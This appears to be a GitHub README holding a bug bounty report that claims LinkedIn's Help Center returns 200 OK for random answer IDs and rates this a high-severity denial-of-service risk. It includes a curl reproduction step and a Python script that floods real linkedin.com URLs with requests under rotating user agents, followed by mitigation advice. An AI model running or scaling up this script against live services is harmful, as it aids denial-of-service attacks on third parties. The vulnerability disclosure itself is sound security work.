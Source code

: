 # HelpOut
Ddos resources exhaustion for LinkedIn help center

Here's the first report:
[Double Barrel 0day](https://raw.githubusercontent.com/DeadmanXXXII/Double_Barrel)

---

### Bug Bounty Report

**Title:** Potential DoS Vulnerability in LinkedIn Help Center URLs Due to Improper URL Handling

**Report Date:** August 28, 2024

**Reporter:** Blu Corbel AKA DeadmanXXXII

**Program:** LinkedIn Bug Bounty Program

---

#### Summary:

I have discovered a potential Denial of Service (DoS) vulnerability in LinkedIn's Help Center URL handling mechanism. By altering the last 7 characters of certain Help Center URLs, the server consistently returns a status code of 200 OK for URLs that do not actually exist. This behavior can be exploited to perform a DoS attack by generating and requesting numerous random URLs, overwhelming LinkedIn's servers.

#### Impact:

The vulnerability allows an attacker to flood LinkedIn's servers with legitimate-looking requests that consume resources, potentially degrading service performance or leading to a full-scale outage. Such an attack could disrupt the availability of LinkedIn's Help Center and other related services.

#### CVSS Score:

- **CVSS Version:** 3.1
- **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- **Base Score:** 8.6 (High)

#### CWE ID:

- **CWE-400:** Uncontrolled Resource Consumption ('Resource Exhaustion')

---

#### Steps to Reproduce:

1. Start with the base LinkedIn Help Center URL: `https://www.linkedin.com/help/linkedin/answer/a1341680`
2. Modify the last 7 characters of the URL with any random digits or characters, for example: `https://www.linkedin.com/help/linkedin/answer/a1041689`.
3. Use `curl` or any HTTP client to make a request to the generated URL:
   ```bash
   curl -I https://www.linkedin.com/help/linkedin/answer/a1041689
   ```
4. Observe that the server consistently returns a `200 OK` status code along with valid content, even for URLs that do not exist.

#### Proof of Concept (PoC) Script: **HelpOut.py**

The following Python script, named **HelpOut.py**, demonstrates how an attacker might exploit this vulnerability by generating random URLs and sending requests with varying user agents.

```python
import requests
import random
import string
import time

# Base URL for LinkedIn Help Center
base_url = "https://www.linkedin.com/help/linkedin/answer/a"

# Random User Agents
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 11; SM-G998B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 15_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base):
    # Generate a random 7-character alphanumeric string
    random_chars = ''.join(random.choices(string.ascii_lowercase + string.digits, k=7))
    return base + random_chars

def send_request(url):
    # Choose a random User Agent
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    response = requests.head(url, headers=headers)
    print(f"Requested URL: {url} | Status Code: {response.status_code}")

# Generate and request random URLs
for _ in range(1000):  # Modify this number to increase/decrease the number of requests
    random_url = generate_random_url(base_url)
    send_request(random_url)
    time.sleep(0.1)  # Pause between requests to simulate more realistic traffic
```

---

#### Mitigation Recommendations:

1. **Implement Rate Limiting:** Enforce rate limits on incoming requests to prevent abuse by automated scripts and bots.
2. **Return Proper Error Codes:** Ensure that only valid resources return a `200 OK` status code. Non-existent or unauthorized resources should return appropriate error codes like `404 Not Found`.
3. **Request Throttling:** Apply throttling mechanisms on repetitive and identical requests to prevent resource exhaustion.
4. **Response Caching:** Implement caching mechanisms to avoid reprocessing identical requests, thus reducing the load on servers.

#### Business Impact:

If exploited, this vulnerability can cause severe service disruptions, affecting user access to LinkedIn Help Center resources and potentially leading to widespread dissatisfaction among users. Furthermore, the attack can compromise LinkedIn's reputation for reliability and security.

---

#### Additional Information:

- **LinkedIn Help Center URLs:** This issue appears to be specific to certain LinkedIn Help Center URLs. However, further investigation might reveal similar vulnerabilities in other areas of the platform.
- **Server Behavior:** The consistent `200 OK` response, regardless of the validity of the resource, suggests that the backend server may not be verifying the existence of the requested resource, leading to unnecessary processing.

---

Please review the findings and consider implementing the recommended mitigations to protect LinkedIn's infrastructure from potential abuse. I am happy to provide further clarification or assist with any testing as needed.

**Blu Corbel AKA DeadmanXXXII**

---


![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-215828.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240831-093727.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240831-093752.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240831-093842.png)
